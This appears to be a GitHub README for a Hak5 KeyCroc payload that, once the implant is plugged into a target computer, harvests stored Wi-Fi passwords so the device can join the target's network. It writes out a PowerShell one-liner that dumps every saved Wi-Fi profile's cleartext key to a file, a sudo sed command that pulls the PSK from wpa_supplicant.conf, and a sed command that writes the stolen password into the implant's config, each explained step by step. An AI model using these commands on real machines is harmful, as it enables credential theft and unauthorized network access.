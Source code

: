 # Croc_Getonline

## INTRODUCTION :
  - This project is developed for the HAK5 KeyCroc
  - Attempt to connect Keycroc automatically to target wifi access point.

* **TESTED ON**
  - Windows 10
  - Raspberry pi 4 (bullseye image)
  - linux (parrot os)

## INSTALLATION :

  - Enter arming mode on your keycroc to install file.
  - Download the Croc_getonline.txt payload and Place this in the KeyCroc **payload folder**

## STARTING GETONLINE :

   - After install plug into target and type in anywhere
   - **getonline_W** <-- MATCH word for windows
   - **getonline_L** <-- MATCH word for Linux
   - **getonline_R** <-- MATCH word for Raspberry pi
   - When the payload is done running the LED will light up green
   - Keycroc should now be connected to target wifi access point
   - NOTE: for linux edit payload for passwd needed for sudo permission

## PAYLOAD INFO :

**(netsh wlan show networks) | Select-String "\:(.+)$" | % {\$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)} | Select-String "Key Content\W+\:(.+)$" | % {$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Out-File -Encoding UTF8**

netsh wlan show networks: This command displays a list of all available wireless networks and their corresponding information, including their SSID and signal strength.

| Select-String "\:(.+)$": This command selects only the lines that contain the network names by using regular expressions. Specifically, it searches for lines that end with a colon followed by one or more characters, and selects only those lines.

| % {\$name=$_.Matches.Groups[1].Value.Trim(); $_}: This command assigns the network name to the variable $name, which is extracted from the previously selected lines. It also trims any whitespace from the name.

| %{(netsh wlan show profile name="$name" key=clear)}: This command uses the network name to retrieve the security information for each network. Specifically, it displays the profile information for the specified network, including the security key (if available).

| Select-String "Key Content\W+\:(.+)$": This command selects only the lines that contain the security key information. Specifically, it searches for lines that contain the text "Key Content" followed by a colon and one or more characters, and selects only those lines.

| % {$pass=$_.Matches.Groups[1].Value.Trim(); $_}: This command assigns the security key to the variable $pass, which is extracted from the previously selected lines. It also trims any whitespace from the key.

| %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}: This command creates a custom object that contains the network name and security key for each network. Specifically, it creates an object with two properties: PROFILE_NAME (which contains the network name) and PASSWORD (which contains the security key).

| Out-File -Encoding UTF8: This command saves the custom object to a text file, using UTF-8 encoding. The file will contain a list of all available wireless networks and their corresponding security keys.


**t_pw=$(sudo sed -e '/ssid\ psk/,+1p' -ne ":a;$t_ssid/{n;h;p;x;ba}" /etc/wpa_supplicant/wpa_supplicant.conf | sed 's/[[:space:]]//g' | sed 's/psk="\(.*\)"/\1/')**

sudo sed -e '/ssid\ psk/,+1p' -ne ":a;$t_ssid/{n;h;p;x;ba}" /etc/wpa_supplicant/wpa_supplicant.conf: This command extracts the lines of the configuration file located at /etc/wpa_supplicant/wpa_supplicant.conf that contain the SSID and the corresponding PSK (pre-shared key) of the wireless network that the device is currently connected to. This is done by searching for the line that contains the SSID of the current network, and then extracting the line that follows it, which contains the PSK.

sed 's/[[:space:]]//g': This command removes all whitespace characters from the output of the previous command. This is done to ensure that the PSK is in the correct format for later use.

sed 's/psk="\(.*\)"/\1/': This command extracts the PSK from the output of the previous command. It does this by searching for the string "psk=" followed by a double-quoted string, and then extracting the contents of the double-quoted string. The result is assigned to the variable $t_pw.

In summary, this code extracts the PSK of the wireless network that the device is currently connected to and assigns it to the variable $t_pw.



**sed -E -i '1{x;s#^#sed -n 1p wifipass.txt#e;x};10{G;s/\n(\S+).*/ \1/};11{G;s/\n\S+//}' config.txt** 

By default, sed reads each line of a file. For each cycle, it removes the newline, places the result in the pattern space, goes through a sequence of commands, re-appends the newline and prints the result e.g. sed '' file replicates the cat command. The sed commands are usually placed between '...' and represent a cycle, thus:

1{x;s#^#sed -n 1p wifipass.txt#e;x}

1{..} executes the commands between the ellipses on the first line of config.txt. Commands are separated by ;'s
x sed provides two buffers. After removing the newline that delimits each line of a file, the result is placed in the pattern space. Another buffer is provided empty, at the start of each invocation, called the hold space. The x swaps the pattern space for the hold space.
s#^#sed -n 1p wifipass.txt this inserts another sed invocation into the empty hold space and evaluates it by the use of the e flag. The second invocation turns off implicit printing (-n option) and then prints line 1 of wifipass.txt only.
x the hold space is now swapped with the pattern space.Thus, line 1 of wifipass.txt is placed in the hold space.

10{G;s/\n(\S+).*/ \1/}

10{..} executes the commands between the ellipses on the tenth line of config.txt.
G append the contents of hold space to the pattern space using a newline as a separator.
s/\n(\S+).*/ \1/ match on the appended hold space and replace it by a space and the first column.

11{G;s/\n\S+//}

11{..} executes the commands between the ellipses on the eleventh line of config.txt.
G append the contents of hold space to the pattern space using a newline as a separator.
s/\n\S+// match on the appended hold space and remove the newline and the first column, thus leaving a space and the second column. 
